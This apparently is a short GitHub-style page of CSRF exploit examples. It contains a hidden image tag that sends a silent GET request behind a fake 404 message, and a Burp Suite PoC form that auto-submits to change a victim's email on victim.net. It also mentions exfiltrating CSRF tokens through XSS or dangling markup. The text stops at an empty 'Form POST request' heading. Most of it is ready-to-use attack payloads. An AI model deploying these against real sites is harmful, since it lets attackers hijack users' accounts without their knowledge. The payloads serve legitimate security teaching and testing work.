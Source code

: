 # Exploit Examples

  Exfiltrating CSRF Token
  If a CSRF token is being used as **defence **you could try to **exfiltrate it **abusing a XSS vulnerability or a Dangling Markup vulnerability.

 
GET using HTML tags

        <img src="http://google.es?param=VALUE" style="display:none" />
        <h1>404 - Page not found</h1>
        The URL you are requesting is no longer available


Other HTML5 tags that can be used to automatically send a GET request are:
![alt tag](https://github.com/abdul9255/Cross-Site-Request-Forgery-CSRF/blob/main/1.png)


# Form GET request

          <html>
            <!-- CSRF PoC - generated by Burp Suite Professional -->
            <body>
            <script>history.pushState('', '', '/')</script>
              <form method="GET" action="https://victim.net/email/change-email">
                <input type="hidden" name="email" value="some@email.com" />
                <input type="submit" value="Submit request" />
              </form>
              <script>
                document.forms[0].submit();
              </script>
            </body>
          </html>


# Form POST request
